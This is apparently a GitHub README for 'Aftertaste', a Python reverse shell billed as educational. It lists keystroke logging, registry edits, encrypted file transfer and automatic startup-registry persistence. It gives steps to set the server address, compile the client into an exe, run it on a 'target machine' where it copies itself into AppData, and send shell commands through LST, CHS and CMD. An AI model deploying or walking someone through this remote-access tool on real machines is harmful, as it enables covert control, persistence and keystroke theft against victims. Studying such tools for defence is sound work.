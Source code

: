 # Aftertaste

Aftertaste is a python-based reverse shell with numerous tools for educational purposes. It allows arbitrary command execution of a client's machine, keystroke logging, and registry edits.

![alt text](img/client_server.png)

# Features

- Arbitrary command execution
- AES-128 bit key encryption between client and server packets
- Automatically places client into the startup registry on first launch
- Windows registry key manipulation
- Keystroke logging
- Encrypted file transfer between server and client

### Environment
| Operating System | Client | Server |
| ------ | ------ | ------ |
| Windows 10 | ✔ | ✔|
| Windows 8.1 | ✔ | ✔ |
| Ubuntu | ✘ | ✔|
Python 3.6+

### Installation

Install [python 3.6](https://www.python.org/downloads/release/python-369/) to be able to run the server

Install the python dependencies from the master branch

```sh
$ pip install -r requirements.txt
```

# Usage
### Running the client
Edit ./settings/keys.py to change the server's ip address and password

>CONN_IP_ADDRESS = "127.0.0.1"

>CONN_PASSWORD = "password"

>CONN_PORT=5000

Compile client.py on windows by running build.bat
```sh
$ .\build.bat
```
The exe file will be in the dist folder

Run the exe on the target machine

Running the exe file the first time will copy itself into the folder:
>C:\Users\%user%\AppData\Local\


### Server usage
Run server.py using python
```sh
$ python3 server.py
```

Once a client successfully connects to the server, list all current open connections using:
```sh
LST
```
Choose a connection 
```sh
CHS 0
```
Issue command line commands using
```sh
CMD [shell command]
```